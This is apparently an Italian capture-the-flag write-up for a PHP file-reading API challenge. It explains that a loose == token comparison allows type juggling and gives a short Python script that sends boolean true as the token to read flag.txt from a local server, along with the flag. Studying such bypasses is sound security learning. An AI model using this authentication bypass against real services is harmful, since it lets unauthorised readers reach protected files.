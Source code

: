 # Yet Other (one) Useless Rest API (`yourAPI`)

La challenge espone un sito web che implementa una `API` che legge dei file in una cartella `/files`.
Non vengono date guide di utilizzo o documentazioni, ma abbiamo il codice, che letto fa capire come fare le richieste, che sono dei json strutturati in questo modo:

```json
{
    "file": "esempio",
    "token": "abcdefg",
    "lines": 5
}
```

e otteniamo delle risposte di questo tipo:

```json
{
    "text": "contenuto",
    "length": 100
}
```

Il problema è che per leggere più di 5 righe serve il **token**, che non abbiamo.

A questo punto, leggendo il codice, il passaggio cruciale è accorgersi che la comparazione fra l'input dell'utente e il token è fatta con un ==, e non con un ===, rendendola vulnerabile a PHP type juggling.

![vuln](vuln.png)

Nello specifico, su PHP una stringa qualsiasi == `true`, quindi è sufficiente utilizzare `true` come token richiedendo `flag.txt` per ottenere la flag intera.

```python
import requests
d = {
    'file': 'flag.txt',
    'token': True,
    'lines': 100
}
r = requests.post("http://localhost:8002/", json=d)
print(r.text)
```

Flag: `rossiCTF{PHP_7yP35_4r3_H1l4r10u5_41e9c8}`